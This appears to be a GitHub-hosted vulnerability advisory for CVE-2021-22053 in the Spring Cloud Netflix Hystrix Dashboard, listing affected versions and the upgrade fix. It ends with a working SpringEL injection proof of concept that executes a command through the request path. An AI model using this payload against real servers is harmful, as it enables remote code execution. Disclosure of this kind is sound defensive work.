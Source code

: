 ## CVE-2021-22053: Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability

### Severity
High

### Vendor
Spring by VMware

### Description
Applications using both `spring-cloud-netflix-hystrix-dashboard` and `spring-boot-starter-thymeleaf` expose a way to execute code submitted within the request URI path during the resolution of view templates. When a request is made at `/hystrix/monitor;[user-provided data]`, the path elements following `hystrix/monitor` are being evaluated as SpringEL expressions, which can lead to code execution.

### Affected VMware Products and Versions
Severity is high unless otherwise noted.
- Spring Cloud Netflix
  - 2.2.0.RELEASE to 2.2.9.RELEASE
  - Older, unsupported versions are also affected

### Mitigation
Users of affected versions should apply the following mitigation: Users should upgrade to 2.2.10.RELEASE+. No other steps are necessary. Releases that have fixed this issue include:
- Spring Cloud Netflix
  - 2.2.10.RELEASE+

### Credit
This vulnerability was identified and responsibly reported by threedr3am of SecCoder Security Lab (threedr3am@foxmail.com).

### References
https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:H/A:L

### History
2021-11-17: Initial vulnerability report published.

### POC
raw:
```
http://127.0.0.1:8080/hystrix/;a=a/__${T (java.lang.Runtime).getRuntime().exec("open -a calculator")}__::.x/
```
encode:
```
http://127.0.0.1:8080/hystrix/;a=a/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x/
```
PS. The diagonal bar'/' cannot be carried in the command